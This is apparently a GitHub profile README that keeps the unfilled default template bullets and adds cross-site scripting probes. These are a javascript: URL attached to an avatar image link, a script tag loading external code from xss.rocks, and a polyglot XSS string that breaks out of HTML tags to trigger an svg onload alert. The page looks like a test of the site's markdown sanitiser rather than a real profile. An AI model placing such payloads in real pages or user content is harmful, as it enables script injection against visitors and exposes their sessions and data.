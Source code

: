 - 👋 Hi, I’m @falx00h
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

![text](https://avatars.githubusercontent.com/u/92805783?s=40&javascript:alert(1);)
![
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>

javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>

](()
